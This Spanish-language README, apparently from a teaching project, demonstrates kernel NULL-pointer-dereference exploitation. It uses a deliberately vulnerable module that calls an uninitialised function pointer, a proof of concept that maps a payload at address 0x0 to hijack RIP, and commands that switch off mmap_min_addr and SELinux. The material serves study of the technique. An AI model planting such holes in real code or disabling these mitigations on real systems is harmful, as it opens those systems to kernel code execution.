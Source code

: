 Explotando la técnica Null Dereference
====================================

Este modulo y su POC demuestran como una referencia a NULL en el kernel puede causar ejecución de código arbitrario en nuestro sistema. Es difícil saber el año en que se comenzó a explotar esta técnica, pero según un artículo de John Corbet[1] parece ser que fue por 2009. Desde entonces se ha restringido el acceso a las zonas bajas de memoria del usuario, mitigando el problema de las referencias nulas mediante configuraciones con sysctl y SELinux. 

¿Cómo funciona todo esto?
=========================

Lo primero es desactivar las protecciones de memorias bajas de sysctl y SELinux. Lo segundo es cargar un módulo que tiene un principal objetivo: que cada vez que escribamos en su /proc/nullderef, se llame a una función que ha sido declarada pero no inicializada, es decir, a una funcion no referenciada:

```
void (*my_dereference_funptr)(void);  //Declarada pero no inicializada

ssize_t write_proc(struct file *filp,const char *buf,\
                   size_t count,loff_t *offp)
{
  my_dereference_funptr();            //Llamada a una función sin inicializar
  return count;
}
```

De esta forma, al no estar inicializada, la función tendrá como valor por defecto una dirección nula(la dirección 0x0); y al ejecutarla hará que se salte a 0x0, que es válida y conocida por el proceso en su espacio de usuario. 

El POC lo único que hace es cargar un payload en la dirección $0 y posteriormente escribir en /proc/nullderef para que se llame a la función write de arriba:

```
  memcpy(0, payload, sizeof(payload));        //Cargamos el payload en 0x0
  int fd = open("/proc/nullderef", O_WRONLY); 
  write(fd, "null dereference", 3);           //Y provocamos la llamada a una referencia nula en el kernel
```

Todo lo anterior acabará fatídicamente como un "RIP: 00:41414141. Bad RIP Value" en los registros del sistema, que es justamente el payload que cargamos en nuestro POC (jump 0x41414141).

Compilación
===========

Para compilar el proyecto, siga los siguientes pasos.

  1. make
  
Una vez compilado, cargamos el módulo, el cual habilitará una entrada en el sistema de ficheros /proc, llamada /proc/nullderef:
  
  2. sudo insmod module/nullderef_module.ko
 
Para que el sistema nos permita utilizar la técnica de null dereference debemos permitir que el usuario tenga acceso a zonas bajas de memoria, concretamente a la dirección 0x00000000, que es la clave de esta técnica.
  
  3. sudo sysctl -w vm.mmap_min_addr="0"

También, en el caso de tenerlo habilitado, debemos desactivar temporalmente SELinux, ya que también añade medidas de seguridad para prohibir al usuario accesos a zonas bajas de memoria. 
  
  4. sudo setenforce 0

Una vez desactivadas las barreras, ya podemos accedes y escribir en la dirección 0x0. Ejecutamos el POC, que lo que hará será modificar el EIP/RIP a 0x41414141, demostrando que la ejecución de código es posible.

  8. ./proc/proc_exec

El resultado final lo podemos ver en los log del kernel:
  
  9. dmesg | tail
     
     **RIP: 0010:0x41414141** RSP:0033:0x7ffff7af8ea4

[1] https://lwn.net/Articles/342330/
